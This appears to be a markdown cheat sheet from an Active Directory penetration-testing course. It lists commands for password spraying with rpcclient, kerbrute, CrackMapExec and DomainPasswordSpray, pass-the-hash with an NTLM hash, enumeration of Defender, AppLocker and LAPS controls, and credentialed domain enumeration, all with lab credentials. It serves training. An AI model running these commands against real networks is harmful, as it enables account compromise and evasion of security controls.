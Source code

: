 | `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 \| grep Authority; done` | Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |

| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1` | Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. |

| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +` | Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`. |

| ` sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Uses `CrackMapExec` to validate a set of credentials from a Linux-based host. |

| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +` | Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`. |

| `Import-Module .\DomainPasswordSpray.ps1`                    | Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host. |

| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host. |

  

# Enumerating Security Controls

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `Get-MpComputerStatus`                                       | PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host. |

| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections` | PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host. |

| `$ExecutionContext.SessionState.LanguageMode`                | PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host. |

| `Find-LAPSDelegatedGroups`                                   | A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host. |

| `Find-AdmPwdExtendedRights`                                  | A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host. |

| `Get-LAPSComputers`                                          | A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host. |

  
  
  

# Credentialed Enumeration


| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. Performed from a Linux-based host. |

| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host. |

| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host. |

| `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users` | Authenticates with a Windows target over `smb` using valid credentials and attempts to check for a list of logged on users (`--loggedon-users`) on the target Windows host. Performed from a Linux-based host. |
